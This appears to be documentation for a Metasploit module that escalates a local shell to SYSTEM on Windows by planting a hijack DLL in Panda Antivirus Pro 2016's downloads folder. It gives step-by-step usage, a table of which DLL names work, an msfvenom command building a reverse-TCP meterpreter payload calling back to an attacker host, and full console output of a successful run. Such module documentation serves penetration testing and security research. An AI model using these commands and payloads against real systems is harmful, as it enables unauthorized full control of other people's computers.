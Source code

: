 ## Vulnerable Application

  Panda Antivirus Pro 2016 16.1.2 is available from [filehippo](http://filehippo.com/download_panda_antivirus_pro_2017/download/b436969174c5ca07a27a0aedf6456c89/)
  or from an unofficial [git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/Panda_AV_Pro2016_16.1.2.exe).

  The AV must be running for PSEvents.exe to run and the module to get called, which can take up to an hour.  I 32bit meterpreter seems to get caught,
  so you may need an AV exclusion for the folder to ensure it didn't catch meterpreter in action.

  The downloads folder can take a 10-15 minutes to appear after install, and its downloaded by Panda AV from the company.

  1. Theres an HTTP GET request to 23.215.132.154 for /retail/psprofiler/40032/psprofiler_suite.exe
  2. Then right after HTTP GET request to 23.215.132.154 for /retail/psevents_suite.exe.

## Verification Steps

  1. Install the application
  2. Wait for `C:\ProgramData\Panda Security\Panda Devices Agent\Downloads` folder to appear
  3. Start msfconsole
  4. Get a shell
  5. Do: `use exploit/windows/local/panda_psevents`
  6. Do: `set session [ID]`
  7. Do: `exploit`
  8. Go do something else while you wait
  9. Enjoy being system with your shell

## Options

### DLL

  Which DLL to name our payload.  The original vulnerability writeup utilized bcryptPrimitives.dll, and mentioned several others that could be used.  However the dll seems to be VERY picky.  Default is cryptnet.dll.  See the chart for more details.

|                                           | WINHTTP.dll | VERSION.dll | bcryptPrimitives.dll | CRYPTBASE.dll | cryptnet.dll | WININET.dll |
|---------------------------------------------------------------|-------------|-------------|----------------------|---------------|--------------|-------------|
| 64bit target (1), win10 x64 | CRASH | CRASH | NO |  NO       | valid     |    no |
| 64bit target (1), win8.1 x86 | CRASH | CRASH | NO |  valid     | valid     |    no |
| 32bit target (0), win10 x64 | CRASH | CRASH | NO | NO        | valid     |    no |
| 32bit target (0), win8.1 x86 | CRASH | CRASH | NO |  valid     | valid (caught by av)     |    no |
| 32bit target (0), win7sp1 x86 |  |  | valid |       | valid (caught by av)     |     |

In this chart, `CRASH` means PSEvents.exe crashed on the system.  `NO` means PSEvents didn't crash, but no session was obtained.  `valid` means we got a shell.

### ListenerTimeout

  How long to wait for a shell.  PSEvents.exe runs every hour or so, so the default is 3610 (10sec to account for code execution or other things)

## Scenarios

### Windows 8.1 x86 with Panda Antirivus Pro 2016 16.1.2

  Step 1, get a local shell.  I used msfvenom to drop an exe for easy user level meterpreter.

    msfvenom -a x86 --platform windows -p windows/meterpreter_reverse_tcp -f exe -o meterpreter.exe -e x86/shikata_ga_nai -i 1 LHOST=192.168.2.117 LPORT=4449
    
    msf > use exploit/multi/handler 
    msf exploit(handler) > set payload windows/meterpreter_reverse_tcp 
    payload => windows/meterpreter_reverse_tcp
    msf exploit(handler) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(handler) > set lport 4449
    lport => 4449
    msf exploit(handler) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4449 
    [*] Starting the payload handler...
    [*] Meterpreter session 1 opened (192.168.2.117:4449 -> 192.168.2.91:63617) at 2016-09-25 20:32:15 -0400
    
    meterpreter > getuid
    Server username: IE11Win8_1\IEUser
    meterpreter > background
    [*] Backgrounding session 1...

  Step 2, drop our panda exploit

    use exploit/windows/local/panda_psevents
    msf exploit(panda_psevents) > set session 1
    session => 1
    msf exploit(panda_psevents) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(panda_psevents) > set exitfunc seh
    exitfunc => seh
    msf exploit(panda_psevents) > set DLL CRYPTBASE.dll
    DLL => CRYPTBASE.dll
    msf exploit(panda_psevents) > show options
    
    Module options (exploit/windows/local/panda_psevents):
    
       Name             Current Setting  Required  Description
       ----             ---------------  --------  -----------
       DLL              CRYPTBASE.dll    yes       dll to create (Accepted: cryptnet.dll, bcryptPrimitives.dll, CRYPTBASE.dll)
       ListenerTimeout  3610             yes       Number of seconds to wait for the exploit
       SESSION          1                yes       The session to run this module on.
    
    
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  seh              yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.2.117    yes       The listen address
       LPORT     4450             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows x86
    
    
    
    msf exploit(panda_psevents) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4450 
    [*] Uploading the Payload DLL to the filesystem...
    [*] Starting the payload handler, waiting for PSEvents.exe to process folder (up to an hour)...
    [*] Start Time: 2016-09-27 18:10:21 -0400
    [*] Sending stage (957999 bytes) to 192.168.2.91
    [*] Meterpreter session 2 opened (192.168.2.117:4450 -> 192.168.2.91:50022) at 2016-09-27 18:46:15 -0400
    [+] Deleted C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\CRYPTBASE.dll
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    meterpreter > sysinfo
    Computer        : IE11WIN8_1
    OS              : Windows 8.1 (Build 9600).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/win32
    meterpreter > background

## Failed Exploitation Attempts

If the dll doesn't work, PSEvents.exe will fail to run.  While silent to the user, an error will occur in the Application Windows Logs.

 * Event ID: 1000
 * Task Category (100)
 * Log Name: Application
 * Source: Application Error
 * Details:
```
Faulting application name: PSEvents.exe, version: 4.0.0.35, time stamp: 0x57061ba6
Faulting module name: ntdll.dll, version: 6.3.9600.17415, time stamp: 0x54504b06
Exception code: 0xc0000374
Fault offset: 0x000d0cf2
Faulting process id: 0xdd0
Faulting application start time: 0x01d218a30fbf1ac5
Faulting application path: C:\ProgramData\Panda Security\Panda Devices Agent\Downloads\1a2d7253f106c617b45f675e9be08171\PSEvents.exe
Faulting module path: C:\Windows\SYSTEM32\ntdll.dll
Report Id: 4de7a07e-8496-11e6-9735-000c29e0cffb
Faulting package full name: 
Faulting package-relative application ID:
```
